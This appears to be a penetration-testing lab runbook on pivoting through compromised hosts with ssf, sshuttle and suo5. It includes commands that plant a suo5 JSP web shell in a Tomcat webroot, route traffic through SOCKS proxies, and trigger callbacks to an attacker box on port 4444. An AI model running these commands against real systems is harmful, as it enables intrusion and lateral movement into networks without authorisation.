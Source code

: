 
#### clean up

```
[[ SSF~CallMe ]]
pkill ssf
ssh root@lamp pkill ssfd
```

## sshuttle

While I think sshuttle is a cool tool, I do not understand all the networking going on under the hood and tools that make changes to my iptables rules makes me uncomfortable.  The benefits of this tool is its simplicity in use, and its small presence on the device to pivot through -- you just need an ssh connection and python on the box.  The major drawback is that if it does not work, it will be painful to troubleshoot.

```
[[ sshuttle~connect ]]*
sudo sshuttle --remote root@tom 10.X.22.0/24  --daemon
	#The third octet for the target machines is 22, so this will only tunnel traffic meant for the target through the sshuttle tunnel.
	#Also note that we are using root, but you do not need root access for this to work
yes

	#Notice sshuttle changes our iptables rules.  I do not enjoy this.
sudo iptables -t nat -nvL

lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```

### clean up sshuttle

```
[[ sshuttle~connect ]]
sudo pkill sshuttle
sudo iptables -t nat -nvL
```

## suo5

```
[[ SUO5~Demo ]]*
cd tools/suo5
cat assets/java/suo5.jsp | ssh root@tom "cat - | sudo tee /usr/share/tomcat/webapps/ROOT/suo5.jsp"
chmod +x suo5-linux-amd64
./suo5-linux-amd64 -t http://tom:8080/suo5.jsp
```

```
[[ SUO5~CallMe ]]*
sudo sed -i '/^socks/Ic\socks5 127.0.0.1 1111' /etc/proxychains4.conf
tail /etc/proxychains4.conf
	#make sure it says socks5 127.0.0.1 9050

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &

cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Notice we got a callback through our socks proxy
```